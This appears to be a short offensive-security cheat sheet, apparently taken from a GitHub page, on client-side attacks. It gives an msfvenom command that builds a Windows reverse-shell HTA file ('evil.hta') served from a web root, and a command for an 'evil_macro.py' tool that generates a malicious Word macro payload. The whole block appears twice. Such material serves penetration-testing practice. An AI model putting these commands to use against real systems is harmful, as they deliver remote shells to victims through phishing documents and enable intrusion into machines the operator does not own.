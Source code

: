 ## Client-Side Attacks
### HTA Attack in Action
```
sudo msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f hta-psh -o /var/www/html/evil.hta
```

### Microsoft Word Macro Attack
```
python evil_macro.py -l <ip> -p <port> -o macro.txt
```
https://github.com/rodolfomarianocy/Evil-Macro/
## Client-Side Attacks
### HTA Attack in Action
```
sudo msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f hta-psh -o /var/www/html/evil.hta
```

### Microsoft Word Macro Attack
```
python evil_macro.py -l <ip> -p <port> -o macro.txt
```
https://github.com/rodolfomarianocy/Evil-Macro/
